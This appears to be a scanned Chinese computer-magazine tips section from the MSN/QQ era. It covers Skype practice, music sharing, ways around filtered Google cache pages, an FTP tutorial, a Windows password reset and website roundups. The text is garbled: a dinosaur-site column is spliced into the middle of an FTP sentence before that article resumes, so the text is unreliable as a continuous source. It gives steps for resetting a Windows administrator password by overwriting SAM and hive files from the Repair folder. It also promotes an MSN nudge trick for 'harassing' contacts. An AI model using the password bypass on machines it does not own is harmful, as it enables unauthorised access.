(1)在站点左侧我们可以根据不同条件来搜索更加适合自己的交谈对象，比如如果你的英文口语非常糟糕，那么你希望自己的交谈对象是个既会中文又会英文的人，你就可以设置检索条件为：“Country” 为 “China”、“Fluent Language” 为 “English”(也就是在中国的英文很好的人)。

(2)在练习之前最好想好自己应该聊些什么，确定一个话题，并准备好自己想要说些什么。否则很可能出现跟交谈者在互相问好之后就不知道该如何继续的情况。

(3)为了便于复习和纠正自己的发音错误，建议大家将每次交谈的内容录制下来。由于目前针对 Skype 的录音软件功能大都不是很出色，建议大家采用 Total Recorder (下载地址为: http://nj.onlinedown.net/soft/17725.htm)等专业的录音软件来辅助录制。

(4)如果你有自己的站点或者 blog，可以安装 Jyve.com 的 Skype Web Plugin 插件，其下载地址为 http://plugin.jyve.com/setups/JyveSetup.exe，安装后点击进入 “Jyve Web Tools” 按钮，在打开的页面中单击 “Get Code”，这时候我们可以获得一组组代码，来实现不同的功能，比如：
在自己的站点放入 “”，可以显示自己的 Skype 在线状态。
放入 “<script src="http://plugin.jyve.com/js/plugin.js"></script>
<a href="IMTO://Skype 账户名"></a>”，访问者点击该图标可以打开 Skype 与你进行文字信息交谈。

(北京 小小)

# 寻觅知音 分享我的音乐心情

所谓 “音乐易得，知音难求”，当你下载了好听的音乐，该如何跟好友分享呢？其实互联网给我们提供了很多方式来分享自己的东西，你可以选择 QQ、MSN Messenger 的文件传输，P2P 交换软件，架设一个 FTP，QQ 中的 “给好友播放多媒体文件” 功能等……这些方法相关文章介绍得很多，笔者不再赘述，下面笔者介绍几个超酷的 “臭显 + 分享” 音乐的方法。

# 将自己喜欢的音乐与 QQ 网友分享

方法一：把网络硬盘打造成自己的 “音乐发布站”

-   登录 QQ，将自己喜欢的音乐上传到 “网络硬盘” 下的 “我的多媒体” 文件夹中。右击 “我的多媒体”，选择 “设置共享” 菜单，勾选 “共享该文件夹”，并选择要共享的好友，最后确认。
这时好友就可以在自己的 QQ 中切换到 “网络硬盘” 标签，在 “共享网络硬盘” 中找到你共享的文件。如果他是 QQ 网络硬盘的高级用户，将鼠标悬停在 “我的多媒体” 文件夹时，会出现一个 “播放” 的图标，单击后就可以在线收听你共享的音乐了；如果他不是高级用户，只有通过下载音乐文件来在本地播放了。

> 小提示
所谓 “QQ 网络硬盘高级用户”，是指容量已经升级为 256MB(10 元/月)、512MB，或者增加 10MB(每增加 10MB，需 1Q 币/月)的用户，你可以在 “网络硬盘” 标签中单击 “升级” 来获得。

# 方法二：与群友 “畅享” 音乐

-   打开任意一个 QQ 群，切换到 “共享” 标签，右键单击空白处，选择 “上传文件” 按钮即可上传自己的音乐，上传功能后该群会有消息提示群里面的好友。不过普通群只提供了 16MB 空间，似乎有点少。笔者为大家提供一个更好的办法：
首先将自己的音乐上传到网络硬盘的 “我的多媒体文件夹”，接下来双击上传的文件，系统会调用 Windows Media Player 来在线播放该文件，选择 “文件→属性”，在 “位置” 栏我们可以看到该文件的在线播放真实地地址。接下来我们在群里切换到 “BBS” 标签，在此发表一个帖子，将地址粘贴进去，网友就可以直接通过该地址在线听歌了！

# 在 MSN Messenger 中 “臭显 + 分享” 自己的音乐

MSN Messenger 7.0 中提供了一个非常有意思的功能，该功能允许在 MSN Messenger 中显示自己正在播放的歌曲信息(包括歌曲名、歌手名，需要用 Windows Media Player 播放)。

## Round 1: MSN Messenger 音乐显摆功能

在 MSN Messenger 面板中选择“打开‘我正在收听的内容’”标签即可开启该功能。这时 MSN Messenger 面板上会以“歌曲名 - 演唱者”的格式显示正在播放的歌曲，单击它可以在 MSN 搜索引擎中搜索该歌曲。好友的鼠标悬停在你的昵称上单击“查看此人的联系人卡片”即可看到你正在播放什么歌曲。

小提示
要关闭该功能，选择“工具→选项”，在“个人信息”标签中取消勾选“在个人消息中显示 Windows Media Player 正在播放的歌曲信息”一项即可。

## Round 2: 让 MSN 显示 Foobar 和 Winamp 正在播放的音乐！

如果你不使用 Windows Media Player 来听歌，默认情况下就无法享受 MSN Messenger 的这一功能了。有没有两全其美的办法呢？答案是肯定的。
首先关闭音乐播放器。如果用的是 Foobar，到 http://www.newhua.com/cfan/200517/toaster.rar 下载一个 toaster.rar，将其解压缩，将解压缩得到的 foo_toaster.dll 文件放到你的 Foobar 安装目录下的 components 文件夹里；如果你使用的是 Winamp，到 http://www.myplugins.info/gen_msn.zip 下载一个 gen_msn.zip，安装压缩包里的 gen_msn.exe 即可。

小提示
该功能需要 Winamp 5.0 以上版本，操作系统必须是 Windows 2000/XP/2003。

## Round 3: 让显示效果更个性、更酷！

### (1) Foobar
第一步：选择“外挂组件→Toaster →Configure Toaster”菜单打开“Toaster Preferences”窗口。切换到“Formatting”标签，这里设置歌曲显示的风格。勾选“Wrap text”(这样可以让曲目名比较长的时候自动换行显示)，勾选“Treat left aligned text as centered”，“Font Quality”是设置效果，建议选择“ClearType Gridfit”，“Font”中设置自己喜欢的字体。
第二步：切换到“Extra”标签，这里设置歌曲显示的内容。笔者要想依次显示：歌手 专辑名 音轨 歌手名 音乐时间长度 编码方式 码率，那么就分别编辑“MSN Artist”、“MSN Title”、“MSN Album”、“MSN Format”为“%artist%”、“%title% %_length%”、“%album% #%tracknumber%”、“{1} - {2}[{0}]”。你可以根据自己的喜好来取舍调整。

### (2) Winamp
选择“选项→设置”菜单，切换到“MSN Messenger”标签，在“Require Winamp 5”处设置“Title”、“Artist”等，设置的方法跟 Foobar 里面的设置一样。

## 在搜索中“捕风捉影”——Google 快照强行突破

网上有个智多星名字叫 Google。你有任何问题都可以从中搜索出来，不过搜索出来的信息经常无法打开，明明在“连接”介绍处给出了详细提示，而实际网页不是无法打开就是面目全非。搜索专家给出了建议——可以通过 Google 的网页快照来查看。但又出现了一个问题，那就是有的网页快照也无法正常打开，遇到这种情况很多朋友选择了放弃。实际上有很多巧妙办法查看网页快照信息。

## 方法1：将链接地址里面的“search?”替换成“linux?”

使用的 Google 快照地址中，一般都会出现“search?”的字符形式。这个关键字经常被过滤，将其修改为“linux?”就能查看到内容。

## 方法2：ie=UTF-8 参数提前法

在 Google 快照地址中将“ie=UTF-8”这个参数提到“q=cache”前面来。修改后的连接如下（注意）：http://xxx.xxx.xxx.xx/search?ie=UTF-8&q=ca...org/+&hl=zh-CN

## 方法3：语言修改法

把语言“hl=zh-CN”中的“zh-CN”改为“en”或“jp”就可以正常访问了。例如改为“hl=en”。不过，有时直接修改语言无法查询快照，还需要我们将查询 IP 地址进行修改，即将默认的快照 IP 地址 216.239.53.104 修改为 216.239.51.100。但这种方法有时会不起作用。

小提示
其实还有很多种修改方法，只要本着修改后的地址符合 Google 语法，能正常调用（而 ISP 没有对代码进行过滤设置）的原则即可。

## 方法4：域名修改法

直接使用 www.Google.com 搜索后，再访问网页快照，经常会被过滤，不过使用其他域名可以有效解决快照访问的问题。各位读者可以尝试如下地址，在下面地址中搜索后使用网页快照，成功率比较高：
http://www.Google.com/u/berkeley
http://www.Google.com/custom
http://Google.7766.org
http://64.233.167.104/

## 方法5：代理法

这个方法最容易想到，就是用代理服务器搜索工具找一个有效的代理，通过代理访问快照网页。至于寻找代理的工具，推荐使用“代理猎手”（下载地址：http://nj.onlinedown.net/soft/7874.htm），并且利用 Maxthon、GreenBrowser、TT 等浏览器的多代理支持功能（能够让你在浏览器设置多个代理服务器方案，并且能够快速在它们之间切换）就可以方便地使用代理查看快照网页了。

## 方法6：插件法

常用 Maxthon 浏览器的读者，可以使用该工具的一个快照插件来查看。此插件对任何语言的 Google 以及任何国家和地区的 Google 均有效，使用方法是将压缩包解压，然后把 EnableGoogleCache 目录复制到 Maxthon 安装目录下的 Plugin 目录下。启动 Maxthon 后，会提示“是否自动加载该插件”，选择“是”就可以在浏览网页快照时自动调用该功能查看网页快照了。

- EnableGoogleCache 插件小档案

| 项目 | 内容 |
| --- | --- |
| 软件性质 | 免费软件 |
| 软件大小 | 56KB |
| 运行平台 | Windows 2000/NT/XP/2003 |
| 下载地址 | http://www.newhua.com/cfan/200512/EnableGoogleCache.rar |

以往，网页快照是我们的救命草，每当在某个真实页面无法访问时使用网页快照，如果还不能访问则彻底放弃。如今手里的稻草又多了一根，那就是解决网页快照不能访问的问题。这样一来，搜索的内容会越来越多，越来越全，网络上的资源就更加丰富了。
(北京 Softer)

## 文件装甲运输车——玩转新时代 FTP

有过一段网龄的读者一定知道 FTP，它主要用于文件传输。多年以前，一提到传送文件，FTP 马上就会跳出来。不过，随着现今网络的发展，我们传输文件越来越多是通过 QQ 或 MSN 来完成了。但是，FTP 并没有消失，仍然存在于我们的周围，并且在很多方面是不可替代的。

## FTP 的前世今生

我们常说的 FTP 实际指的是 FTP 协议，即文件传输协议(File Transfer Protocol)，网络诞生初期，人们要交换文件，只能采取磁盘复制的方法，非常不方便。有的人就提出：既然有了网络，为什么不能通过网络传送文件呢？
举个例子，就好像火车发明后，人们首先把它应用于货物运输。但有些人就会提出疑问：为什么不能让它来运载乘客呢？于是，就有人设计出了客运列车的车厢，用于运载乘客。FTP 就好像这个车厢，有了它，才能实现文件在网络间的传送。为了实现这个功能，国际组织制定了 FTP 协议，它是 Internet 最早的应用层协议，随着 TCP/IP 协议的诞生而诞生。这个协议用于主机间传送文件，主机类型可以相同也可以不同，可以传送不同类型的文件，而不用再使用磁盘媒介了。所以，FTP 的应用范围很广，是最普及的文件传输协议。

早期的 FTP，是直接在 DOS 或命令行模式下输入一条条指令来实现文件传输的，到了今天，随着图形界面软件越来越多，用户只要通过简单的鼠标操作，就能轻松实现 FTP 传输功能了。这类软件很多，例如 FlashFXP, CuteFTP 等，稍后会为大家详细介绍。

小提示
今天 FTP 最常用的地方
★ 相当多网站文件的首选上传方式
★ 大量免费资源的下载地，尤其是一些个人下载站点
★ 掌握黑客知识的基础课

## FTP 的兄弟——TFTP

除 FTP，还有一个协议也可以用于传输文件，它就是 TFTP 协议。TFTP 协议是一个传输文件的简单协议，为什么说简单？是因为它只提供传输文件而不确保文件的成功传送。正因为它在安全性上没有保证，所以没有 FTP 普及。不过，由于它不用消耗相应的网络资源用于确保传输，所以在一些对连接要求不高，或者可以通过其他辅助手段确保安全的场所，TFTP 还是有用武之地的。例如路由器上设置的保存，就使用这种协议。总体上讲，FTP 比 TFTP 功能更加强大，占据了文件传输协议的主导地位。

小提示
正因为 TFTP 的安全问题，所以我们即使用到 TFTP 协议也往往只开放其下载权限，而不分配上传权限。

## 老话题新讨论——FTP 原理与两种工作模式

首先为大家介绍下 FTP 的工作原理，只有把原理弄清楚后，才能更好地理解 FTP 的两种工作模式。整个 FTP 建立连接的过程有以下几步：
第一步：对于一个 FTP 服务器来说，它会自动对默认端口进行监听（默认端口是可以修改的，一般为 21），当某个客户机向这个专用端口请求建立连接时，便激活了服务器上的控制进程，通过这个控制进程进行用户名密码及权限的验证。
第二步：当验证完成后，服务器和客户机之间还会建立另外一条专有连接进行文件数据的传输。
第三步：在传输过程中，服务器上的控制进程将一直工作，并不断发出指令操作整个 FTP 传输，传输完毕后，控制进程发送给客户机结束指令。
以上就是 FTP 建立连接的整个过程，不过 FTP 自身有两种工作模式，也就是说在第二步中提示“建立另外一条专有连接方式”的方法有两种

习惯上我们称为主动模式和被动模式。

## (1)主动模式

主动模式也称 Pasv 模式，该模式的“数据传输专有连接”是在建立控制连接(用户认证完成)后，首先由服务器使用20端口主动向客户机进行连接，建立专有连接用于数据的传输。这种方式在网络管理上比较好控制。21端口用于用户验证，20端口用于数据传输，只要将这两个端口开放，就可以随心所欲地使用FTP功能了。

## (2)被动模式

被动模式也称为 Port(端口)模式；该工作模式与主动模式不同，数据传输专有连接是在建立控制连接(用户认证完成)后，由客户机向 FTP 服务器发起连接的，客户机使用哪个端口，连接到服务器的哪个端口都是随机产生的。

小提示
很多FTP服务器的20端口被禁用或者被过滤掉了，这时就不能使用主动模式进行数据传输了，相应的需要客户机采取被动模式建立连接。采用何种工作模式完全取决于客户机上的设置，因此切换工作模式已经成为最简单的FTP故障排除方法了。

## 赤手空拳玩FTP

Softer 大哥哥建立了一个 FTP 站点，将自己亲手做的 Flash 贺卡放到了该站点中，服务器地址是 211.153.80.240，并为自己的 GF —— 松儿 MM 分配了相应的用户名和密码，希望 MM 可以通过 FTP 将 GG 的心血贺卡下载到计算机上，MM 应该怎么做呢？

## 方法1:命令行指令法

该方法不用任何工具，即使没有安装浏览器的电脑也能通过命令行来完成文件的传输。

- 第一步:通过“开始→运行→输入 cmd”进入命令行模式。
- 第二步:输入“ftp 211.153.80.240”后回车，在出现“user”提示时输入分配给 MM 的用户名，接着是输入密码。当出现“230 User logged in, proceed.”的提示时，说明我们已经成功登录了 FTP 服务器。注意，输入密码时，屏幕不会显示任何字符，连星号也没有。
- 第三步:输入命令完成文件的下载上传以及文件目录查看工作。经常用到的有“ls”(显示文件目录，类似于DIR)，“get”(下载文件)，“put”(上传文件)，“bye”(离开FTP站点)。例如 MM 要下载名为 love.swf 的文件只要在命令行中输入 get love.swf 即可。

小提示
刚刚接触命令行FTP 的读者可能不知道输什么指令，其实我们可以输入“?”来查询。

## 方法 2: 浏览器法

上面提到的命令行登录 FTP 服务器太不直观了，实际上操作系统都内置了 IE 浏览器，我们完全可以使用它来登录 FTP 站点并下载相应的文件。以登录 211.153.80.240 下载 cfan.txt 为例。

- 第一步:启动 IE，并在地址栏处输入“ftp://211.153.80.240”。

小提示
由于使用的是 FTP 协议进行数据的传输，所以必须在地址前写上“ftp://”，如果直接写 211.153.80.240则默认浏览器会调用 http 协议进行访问。

- 第二步:在弹出的对话框中输入正确的用户名和密码，然后点“登录”按钮完成登录工作。
- 第三步:在出现的文件目录中找到 cfan.txt，用鼠标直接拖到本地桌面即完成了该文件的复制工作，实现了将 cfan.txt 从 FTP 服务器上下载到本地硬盘的操作。

小提示
实际上可以通过在地址栏中输入诸如“ftp://用户名:密码@IP地址:端口号”的形式来快速访问 FTP 站点，从而省去了输入用户名和密码的步骤，如果不输入端口号则使用默认的21端口。

## 断点续传玩 FTP

松儿 MM 正通过浏览器下载 Softer 的 FTP 服务器上面的最新大片，一共需要3个小时，已经传送了两个半小时了。突然 MM 的网络出现了问题，网络连接中断了。重新拨号后再次登录 FTP 下载文件却发现时间重新开始还需要3个小时，以前的两个半小时的努力白费了。松儿 MM 急忙给 Softer 打了电话，哭诉事实的残酷。Softer 说：“哎！要是你使用的不是可以断点续传的 FTP 工具就好了，那样的话不管你掉线还是关机都可以继续传输文件。”

- FlashFXP小档案

| 项目 | 内容 |
| --- | --- |
| 软件版本 | 3.1.14 build 1078 RC1 简体版 |
| 软件大小 | 2422KB |
| 软件性质 | 共享软件 |
| 适用平台 | Windows9x/Me/NT/2000/XP |
| 下载地址 | http://nj.onlinedown.net/soft/2506.htm |

第一步:下载 FlashFXP 进行安装。安装过程一路 NEXT 即可。启动桌面的 FlashFXP 图标，在右边窗口中点“连接”按钮，然后选择“快速连接”。
第二步:在快速连接界面输入你要登录的 FTP 站点 IP 地址、端口号、用户名和密码，然后点“连接”按钮，即可快速登录该 FTP 服务器(见图)。

第三步:登录后，传输文件就可以实现断点续传的功能了，关机或掉网后再次登录服务器传送文件，都可以接着原来的进度传输了。

小提示
### FTP断点续传替代工具
- ★ CuteFTP
该工具是一个流行的 FTP 工具，通过它可以实现上传下载文件，浏览 FTP 服务器上的资源，完全支持断点续传功能。
- ★ Miniftp
该工具是小巧的 FTP 工具，是完全绿色的，下载下来直接运行即可，不用安装，而且在软件界面右边还会显示出详细的 FTP 指令。

## 多个线程玩 FTP

松儿 MM 又给 Softer 打来了电话，抱怨下载速度太慢了，只有 5K/S。可是 MM 家是 ADSL 下载速度应该可以到 70K/S，为什么 FlashFXP 下载速度如此之慢呢？一个电影要下一整天，时间和精力白白浪费了。Softer 笑道：“FlashFXP 和 CuteFTP 这些专用的 FTP 客户端工具只是单线程，下载起来当然慢了。如果想早日下完整部电影的话，应该选择多线程下载工具。”我们常用的影音传送带(Net Transport)和 FlashGet 就是这样的多线程下载工具。不过，要想多线程下载 FTP 上的文件还需要点小技巧。

- 影音传送带小档案

| 项目 | 内容 |
| --- | --- |
| 软件版本 | 1.94a 简体中文版 |
| 软件大小 | 1692KB |
| 软件性质 | 共享软件 |
| 适用平台 | Windows 9x/Me/NT/2000/XP |
| 下载地址 | http://nj.onlinedown.net/soft/2919.htm |

## 实例:通过站点浏览器实现 FTP 文件的多线程下载

- 第一步:安装并启动影音传送带，并选择“站点探测器”标签。在站点探测器的地址及用户名，密码处输入 FTP 服务器的正确信息后回车进行登录，这时你会发现影音传送带内置的这个 FTP 工具显示出了 FTP 服务器上的所有文件列表。
- 第二步:在你想下载的文件上点鼠标右键，选择“下载”就会开始下载。我们可以在下载窗口中设置同时下载的线程数，从而实现了多个线程玩 FTP 的功能。

## 自娱自乐玩FTP

自打松儿 MM 学会了断点续传，多线程下载后就开始有点骄傲了，感觉自己是个 FTP 专家似的。有一天，她竟然忽发奇想：要建立一个 FTP 站点给姐妹们炫耀炫耀；非磨着 Softer 告诉她如何建立 FTP 站点，而且还大言不惭提了条件，那就是专业的不学，难度大的不学。这可让 Softer 有些为难了：要知道建立 FTP 站点最流行的方法就是使用专业的 IIS 或使用功能强大的 Serv-U，没想到这两个工具都不适合 MM。怎么办？难道让刚刚在 MM 心目中建立的高大形象就这么陨落了吗？

- TYPSoft FTP Server小档案

| 项目 | 内容 |
| --- | --- |
| 软件版本 | 0.99.2 汉化版 |
| 软件大小 | 480KB |
| 软件性质 | 免费软件 |
| 适用平台 | Windows 9x/Me/NT/2000/XP |
| 下载地址 | http://nj.onlinedown.net/soft/102.htm |

## 实例:通过 TYPSoft FTP Server 建立简单的 FTP 站点

- 第一步:从网站下载 TYPSoft FTP Server，然后直接解压缩。你会发现这个 FTP 服务器建立软件居然是一个绿色软件。
- 第二步:直接运行 ftpserv.exe 启动软件，首先设置服务器的对外开放端口，方法是点菜单的“设定→设置”，在 FTP 端口处输入希望对外开放的 FTP 服务器端口。
- 第三步:设置用户信息，方法是点菜单的“设定→用户”，我们点“新建用户”按钮然后输入建立的用户名，接着在密码处输入用户密码，通过“…”按钮设置用户的根目录。同时在“用户设定”窗口右边的“目录数据”下方可以设置用户对目录的访问权限，权限种类和 SERV-U 一样包括下载，删除，上传等等。全部设置完毕后点“保存”按钮。
- 第四步:这时候别人就可以通过 FTP 工具访问我们的计算机，并用刚才建立的用户访问 FTP 资源了。有用户登录时还会在 TYPSoft FTP 主界面显示出详细信息。

小提示
别看 TYPSoft FTP 软件容量小，但他的功能非常强大。我们还可以通过“设定→设置”来添加 FTP SERVER 的欢迎信息，甚至可以对每个用户制定不同的登录信息。另外，通过“设定→IP 限制”还可以添加容许或拒绝访问 FTP 站点的 IP 列表。设定后的站点信息保存在软件目录下的 config.ini 文件中，而用户信息则保存在 users.ini 中。

松儿 MM 用 5 分钟就通过 TYPSoft FTP 建立了自己的站点，马上将自己喜欢的歌曲放到了共享目录中并通过 QQ 通知了自己的好姐妹来下载。看着 MM 开心得合不拢嘴的表情，Softer 心里也乐开了花。

## FTP 中转 我用 FlashFXP

周末，Softer 就接到了松儿的电话，原来松儿希望 Softer 将自己 FTP 上的电影、MTV、软件等等东东全部上传到 MM 的 FTP 服务器上，可是 Softer 的 FTP 服务器在单位，而周末 Softer 已经回到了自己的家中。本来打算周一上班就帮 MM 上传资料，可是看着 MM 那求“文件”若渴的表情，Softer 咬咬牙答应了，并保证只要 MM 计算机不关机，周末两天将把所有文件统统搬家。

## 实例:两个 FTP 站点资源的中转

- 任务描述:起初 Softer 想利用周末一边从单位服务器下载资料，一边往 MM 的 FTP 服务器上传文件。可是总觉得太麻烦了，而且中转起来十分费劲，自己的硬盘容量也很吃紧。这时他想起了 FlashFXP 的 FXP 中转功能。
实现方法:
第一步:下载安装 FlashFXP 最新版本，启动后默认界面左边是本地浏览器，右边是远程站点浏览器。
第二步:我们要实现两个站点间的同步，所以需要把左边本地浏览器界面也转换成远程站点浏览器。方法是点软件上方图标行的寻宝对象:中国古生物网 http://www.dinosaur.net.cn
寻宝理由:在千百万年前，哺乳动物还没有出现的时候，一种巨大而又恐怖的冷血动物统治着地球。它们有的异常残暴、嗜血成性，甚至在饥饿时捕杀同类;而有的则性格温顺，以蕨类植物为食。这就是古生物中我们最熟悉的恐龙，今天就要带大家周游古生物的世界。

## 足不出户游遍博物馆:

- 1. 带你认识恐龙:恐龙博物馆
链接:http://www.dinosaur.net.cn/museum/default.htm
包括各种时代出现的恐龙及其种类，详细的名称、特征等，应有尽有。应该算得上是网上最完整的恐龙资料大全。
- 2. 这不是普通的蛋:恐龙蛋
链接:http://www.dinosaur.net.cn/Egg/index.htm
原本以为恐龙蛋都是一模一样的，现在才明白原来还有这么多学问。

## 查查古生物的“户口”:

- 1. 古生物物种数据库
链接:http://www.dinosaur.net.cn/database/index.htm
非常神奇的搜索引擎，可以通过名称(可以勾选“模糊搜索”)、体重、身高、长度等参数搜索出你想找的古生物。
- 2. 名词大辞典
- ①常见名词:http://www.dinosaur.net.cn/museum/dino_databank/default_databank.htm
- ②无脊椎动物名词:http://www.dinosaur.net.cn/museum/dino_databank/default_museum.htm
- ③脊椎动物名词:http://www.dinosaur.net.cn/museum/dino_databank/default_museum_2.htm
- ④植物名词:http://www.dinosaur.net.cn/museum/dino_databank/default_museum_3.htm
你知道“白垩纪”、“三叠纪”是什么意思吗?这里有一本古生物的名词大辞典供你查阅。

## 讲述古生物的故事:

- 1. 长毛象重见天日
链接:http://www.dinosaur.net.cn/_MAMMUTHUS/default.htm
长毛象，学名猛犸象，是一种异常巨大的古生物，由于其有趣的外形所以在各种动画片中经常出现，看过《冰河世纪》的朋友应该对这种动物印象非常深刻。
- 2. 水怪之谜
链接:http://www.dinosaur.net.cn/Suiguai.htm
尼斯湖水怪的传闻带动了当地的旅游经济，而此后全球各地纷纷有水怪的传闻。是史前生物，还是有人故意炒作?
- ①《极度深寒》中的巨型章鱼:http://www.dinosaur.net.cn/Suiguai24.htm

“切换到FTP浏览器”按钮。
第三步:用左站点浏览器登录单位的FTP服务器，用右边的站点浏览器登录MM建立的FTP站点。这时候，把要传输的资源从单位服务器的窗口拖放到MM服务器的窗口即可。这样，两个FTP之间会建立直接传输通道，而不用Softer家中计算机做中转了，Softer家中的计算机下线或者关机，数据的“搬家工作”仍然会继续进行，不受一丝影响。
小提示
有时，通过FlashFXP同步站点内容时，会出现文件传输失败的问题，其实这是由于FTP站点的连接模式所造成的。我们只要在FlashFXP中对连接模式进行修改就可以解决这个问题，通过“选项→参数设置→连接”并在“使用被动模式”前打勾即可。
这种方法实际上是两个FTP服务器之间进行数据传输，而省略了下载再上传的步骤。一方面节省了家中计算机的带宽，简化了操作过程;另一方面由于服务器带宽比较大，数据传输快，所以传输所需时间会更短。
（北京 阮征）

## 敲打岩石的记忆

原来一直以为电影中的东西是虚构的，可没想到原来真的有这么大的章鱼。

- ①有巨型章鱼，自然也少不了鱿鱼:http://www.dinosaur.net.cn/_Dino_News_2002/dino20020005.htm
看了这么大的鱿鱼之后，以后吃秋板烧的时候不知会不会心有余悸……
- ③尼斯湖水怪探密
链接1:http://www.dinosaur.net.cn/dino0886.htm
链接2:http://www.dinosaur.net.cn/dino0880.htm
完整的尼斯湖水怪研究文章，尼斯湖水怪究竟是真是假?

## 恐龙在中国:

链接:http://www.dinosaur.net.cn/dino0006.htm
即使你不在中国的恐龙之乡自贡(Storyer正作得意状:“我的老家……”)，你也能到附近的自然博物馆去看看恐龙化石，这里有一份非常详细的古生物博物馆名录。

## 与恐龙的第三类接触:

- 1. 我也要发掘认化石:http://www.dinosaur.net.cn/dino0006.htm
什么是化石?化石的保存形式?在哪儿能找到化石?找到之后又该如何处理?在成为一名优秀的“化石猎人”之前，你必须掌握的基础知识。
- 2. 今天还有恐龙存在吗:http://www.dinosaur.net.cn/_Extreme_Dinosaurs/index.htm
这一直是困扰许多人的问题，看看《最后的恐龙》中的描述，相信你会找到想要的答案。
- 3. 恐龙梦魇(强烈推荐):http://www.dinosaur.net.cn/_Dino_Nightmare/index.htm
从孩子的视角来看恐龙，孩子会问:“如果说我们人类和恐龙都是从爬虫类逐步演化来的，我们为什么不像恐龙”。
- 4. 恐龙下载:http://www.dinosaur.net.cn/dino0007.htm
霸王龙的叫声竟然也有下载……这里收录了恐龙的壁纸、视频、屏保等下载资源。

## 密码丢失到底如何找回

系统密码丢失是很多朋友遇到的棘手问题，如何解决这个问题呢?
在《电脑爱好者》已经介绍过的方法中，其中比较方便的有DreamPack(下载地址:http://www.d--b.webpark.pl/down/dreampackpl-2004-05-12.zip)、ERD Commander 2003,或是Linux版的启动引导恢复工具。不过这些都需要其他第三方工具，如果仅仅只用一张DOS软盘或是只能引导系统的闪存盘，那么应该怎么做呢?

- 1. 流传已久的伪技巧
网上现在流传着一条删除SAM文件就能恢复密码的技巧，但实际测试的情况如何呢?
用DOS启动盘引导，将C:\Windows\System32\Config目录下的SAM文件剪切至其他分区，重新启动系统，在出现欢迎界面后，就会提示错误，根本无法登录。
其实这条技巧仅适用于Windows 2000的早期版本，微软早已通过补丁修复了该漏洞，但时至今日还有人在传播这已经失传的技巧。
由于上面的技巧已经无法使用，于是网上又流传出另外一种方法:用C:\Windows\Repair下的SAM文件替换C:\Windows\System32\Config目录下的同名文件，这样就可以恢复密码至最初安装状态(默认情况下，Administrator的初始密码为空)。实际上，这种恢复方法也同样有问题，虽然有时可以正常恢复，但并不能保证所有的系统都正常恢复。
为什么可以恢复系统密码至初始状态呢?其实，Repair文件夹是系统安装后，用于备份系统文件的文件夹，当系统出现问题时，我们可以随时用该文件夹中的文件恢复系统。因此用SAM文件替换的方法就能恢复到以前的状态了，不过由于SAM同时还与其他文件有关联，因此如果仅仅恢复一个文件只有很少的情况可以成功。
那么正确的方法是什么呢?
- 2. “备份密码”的小技巧
第一步:如果忘记密码，在DOS下，用C:\Windows\Repair下的software、System、Security、default及Sam五个文件，覆盖C:\Windows\System32\Config目录下的同名文件。
第二步:重启电脑，用Administrator登录，然后修改其他管理员账号的密码(或新建一个管理员账号)，用该管理员账号登录。
第三步:进入C:\Documents and Settings\,将其中的Administrator文件夹删除，将Administrator.computer_name的文件夹改名为Administrator,再用Administrator登录，设置好相应的密码即可。
虽然使用这种方法可以恢复系统，但系统也会恢复初装时的状态，这时你的各种驱动还没有安装，几乎所有优化配置全部消失，一部分软件无法使用(还能使用的多半都是绿色软件)，有些即便可以使用也需要重新注册。所以建议在安装完驱动、软件，进行相应设置后，把前面提到的五个文件从C:\Windows\System32\Config覆盖至C:\Windows\Repair(当然，你也可以备份到其他文件夹)下，这样以后就算忘记密码，再按上面的方法恢复时，也可以减少损失。
(FC)

小提示
如果电脑安装了双系统，那么连DOS引导盘都可以省下，直接在另一个系统中进行上面的操作即可。

## MSN闪屏振动无限“连发”

在MSN Messenger 7.0中有一项叫做“闪屏振动”的功能，使用后会使自己和对方的MSN聊天窗口出现振动，但此功能有一个缺点，就是每次发送之间必须间隔一段时间，无法“连续发射”，这样显然达不到“骚扰”的目的。可是，如果你将MSN的状态设置为“忙碌”，再使用这个功能，就会发现间隔限制没有了，并且发送的同时自己也不会出现振动。

小提示
你是不是在担心别人学会这条“骚扰”技巧后用来对付你呢?不必担心，破解闪屏振动的方法很简单，而且就是我们刚刚完成的操作——将自己设为“忙碌”状态即可。哈!一个简单操作，既可以攻击敌人，又没有后顾之忧，还不快试试!
（笨笨）

## 大自然的召唤

寻宝对象:户外探险网 http://www.out99.com

寻宝理由:在高楼林立的城市中已经无法释放我们囤积已久的压力，高山、湖泊、丛林，这才是我们想要的。与最原始、最不加修饰的大自然亲密接触，远离繁华与喧嚣，那么你应该试试户外探险。

户外探险包括以下项目：徒步穿越、登山、攀岩、自驾车游、野营等。并不是非要穿越撒哈拉大沙漠才算探险，我们所说的“户外探险”是根据自己的爱好与能力选择合适的野外旅行。

### 线路攻略：我应该去哪儿探险

假期实在有限，要利用有限的时间外出旅行实属不易，我希望能找到就近的野外活动好去处。

链接:http://www.out99.com/resource/res_gl.asp

### 防骗攻略：如何远离骗子

独自出行难免遇到许多骗子，如何远离骗子，哪些忙是不该“帮”的，你心里有数吗？

- 1. 火车票也要防假
还没出门，如果已经买到了伪造的火车票……
链接:http://www.out99.com/resource/res_view.asp?id=1889

- 2. 单身女孩防骗知识
陌生人的搭讪、孩子母亲的委托、好客的村民、异地巧遇的老乡，这些都可能是骗子设下的“圈套”。
链接:http://www.out99.com/resource/res_view.asp?id=1067

### 健康攻略：旅行中出现身体状况怎么办

身体再健康的人也难逃病魔偶尔的侵扰，在野外探险时突然生病是最糟糕的，学习如何处理这种情况是非常必要的。

- 1. 面对面的杀机
在进行较为偏远的徒步穿越时，你有可能遭遇毒蛇，如何能避免被毒蛇咬伤？如果已经被咬伤了该怎么办？
链接:http://www.out99.com/resource/res_view.asp?id=1732

- 2. 肌肉抽筋了
抽筋虽然是小问题，但如果在攀岩时腿抽筋了……
预防:http://www.out99.com/resource/res_view.asp?id=1043
解决:http://www.out99.com/resource/res_view.asp?id=715

- 3. 外伤，就要紧急止血
出现外伤就要及时止血，否则会引起休克甚至死亡。
链接:http://www.out99.com/resource/res_view.asp?id=717

- 4. 玩转创可贴
不是所有的创口都能使用创可贴的，创可贴除了保护伤口外，在野外生存中还有什么用途？
链接:http://www.out99.com/resource/res_view.asp?id=709

### 探险攻略：既要刺激又要安全

在野外旅行、探险时，应该注意些什么才能保证在安全的前提下追求探险的刺激？

- 1. 徒步穿越探险指南
全程徒步穿越时，团队合作、体力分配、紧急情况都是关键。
链接:http://www.out99.com/resource/res_view.asp?id=2224

- 2. 喝水也有讲究
什么水是不能喝的，水源紧张时如何饮水。
链接:http://www.out99.com/resource/res_view.asp?id=2097

- 3. 野外的美食FB
在野外尽情享受自己动手烧烤的乐趣。
